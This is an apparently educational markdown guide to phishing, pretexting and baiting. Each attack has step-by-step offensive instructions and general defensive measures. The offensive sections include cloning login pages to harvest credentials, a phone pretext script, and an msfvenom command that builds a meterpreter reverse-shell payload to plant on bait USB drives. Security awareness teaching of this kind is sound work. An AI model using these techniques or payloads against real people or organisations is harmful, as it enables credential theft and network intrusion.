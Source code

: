
# Social Engineering Attacks: Phishing, Pretexting, Baiting

This guide covers **phishing**, **pretexting**, and **baiting** social engineering attacks with detailed practical scenarios, offensive techniques, defensive measures, and hands-on examples.

---

## 1. Phishing Attack

### Practical Scenario:
An **HR Manager** in a medium-sized company receives an email that appears to be from the company's CEO, instructing them to log in to a "new employee benefits portal" to verify payroll information.

---

### Offensive Perspective (How to Attack)

1. **Reconnaissance**:
   - Use tools like **LinkedIn**, **company websites**, or **theHarvester** to gather basic information about employees, particularly the HR Manager.
   
2. **Create a Phishing Page**:
   - Clone a legitimate login page using tools like **SET (Social Engineering Toolkit)** or **HTTrack**. 
   - Example: Clone the company’s benefits portal.

3. **Craft the Phishing Email**:
   - Use **Gophish** to create an email that looks like it’s from the CEO (`ceo@company.com`).
   - Example message:  
     > "Please log in to the new Employee Benefits Portal to review payroll changes. Your immediate action is required. [Click here to log in]."

4. **Set Up the Backend**:
   - Use **Ngrok** or a web server to host the cloned page and set up a backend script (PHP) to capture credentials when entered.

5. **Deploy the Attack**:
   - Send the phishing email to the HR Manager, ensuring the link points to your cloned site.

6. **Monitor the Captured Credentials**:
   - Once the victim enters their credentials, capture them on the backend and use them for further access.

---

### Defensive Perspective (How to Protect Against Phishing)

1. **Security Awareness Training**:
   - Teach employees to check sender addresses, hover over links, and report suspicious emails.
   
2. **Email Filtering Tools**:
   - Implement **DMARC, SPF, and DKIM** to prevent email spoofing. Use **Proofpoint** to filter suspicious emails.

3. **Enable MFA**:
   - Require multi-factor authentication so even if credentials are compromised, unauthorized access is prevented.

4. **Phishing Simulations**:
   - Conduct regular phishing simulations using **Gophish** to train employees.

---

## 2. Pretexting Attack

### Practical Scenario:
An attacker, posing as an **IT technician**, calls a company’s Helpdesk and claims they need login credentials for a critical system update. The Helpdesk agent unknowingly provides the information.

---

### Offensive Perspective (How to Attack)

1. **Create a Pretext**:
   - Pose as an internal **IT support** technician and prepare a credible backstory.
   - Example script:  
     > "This is John from IT. We’re performing urgent updates and need your credentials to verify access."

2. **Build Trust and Urgency**:
   - Manipulate the target into providing information by creating urgency.
   - Example: "If we don’t resolve this now, accounts will be locked."

3. **Request Sensitive Information**:
   - Extract credentials, passwords, or other sensitive details.

4. **Exploit the Information**:
   - Use the captured credentials to log in to internal systems and access valuable resources.

---

### Defensive Perspective (How to Protect Against Pretexting)

1. **Verification Protocols**:
   - Implement strict verification policies requiring confirmation before sharing sensitive data.

2. **Limit Information Access**:
   - Ensure only authorized personnel have access to sensitive data.

3. **Security Awareness Training**:
   - Train Helpdesk and employees to recognize pretexting and challenge unverified callers.

4. **Caller ID Verification**:
   - Use caller ID verification services to authenticate calls before disclosing any sensitive information.

---

## 3. Baiting Attack

### Practical Scenario:
An attacker leaves USB drives labeled **"Executive Salary Reports"** in the company parking lot. Curious employees plug them into their work computers, and malware on the drives provides the attacker with remote access.

---

### Offensive Perspective (How to Attack)

1. **Prepare the USB Drive**:
   - Use **Metasploit** to load malware (e.g., a reverse shell) onto USB drives.
   - Command Example:  
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your IP> LPORT=4444 -f exe > payload.exe
     ```

2. **Create an Enticing Label**:
   - Label the USB drives with something that encourages curiosity, like:  
     > "Executive Salary Reports Q3 2024"

3. **Deploy the Bait**:
   - Leave USB drives in the company’s parking lot, break room, or other common areas.

4. **Wait for Victims**:
   - Once an employee plugs the USB into their computer, the malware automatically runs and establishes a reverse shell.

5. **Exploit Access**:
   - Use the remote access to navigate the company’s internal network and steal sensitive data.

---

### Defensive Perspective (How to Protect Against Baiting)

1. **Disable Auto-Run**:
   - Disable the auto-run feature for USB drives on all company systems.

2. **Security Awareness Training**:
   - Educate employees not to plug in unknown USB devices.

3. **Endpoint Security**:
   - Use tools like **Symantec Endpoint Protection** to block unauthorized devices and the execution of malicious files.

4. **Monitor Network Traffic**:
   - Implement **SIEM** tools like **Splunk** to detect unusual network behavior, such as the initiation of remote connections.

---

### Hands-On Example: Baiting

1. **Step 1**: Use **Metasploit** to load a reverse shell onto a USB drive.
2. **Step 2**: Label the USB drive as “Executive Salary Data.”
3. **Step 3**: Leave the USB in a high-traffic area (e.g., parking lot).
4. **Step 4**: Wait for a victim to plug in the USB and monitor the reverse shell connection.
5. **Step 5**: Defensive countermeasures include disabling auto-run and using endpoint security to block malware execution.

---

## Conclusion

These social engineering attacks—**phishing**, **pretexting**, and **baiting**—demonstrate how attackers exploit human vulnerabilities. By learning offensive techniques and defensive measures, companies can better protect themselves and educate employees on recognizing and preventing these attacks.
